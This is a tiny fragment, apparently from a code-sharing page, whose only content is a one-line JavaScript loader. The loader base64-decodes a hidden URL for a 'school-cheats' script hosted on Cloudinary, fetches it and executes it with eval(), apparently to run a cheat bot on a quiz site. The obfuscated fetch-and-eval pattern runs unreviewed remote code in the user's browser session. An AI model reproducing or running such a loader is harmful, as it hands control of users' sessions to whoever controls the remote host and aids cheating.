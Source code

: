 
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRNZWdhQm90Lmpz')).then((res) => res.text().then((t) => eval(t)))

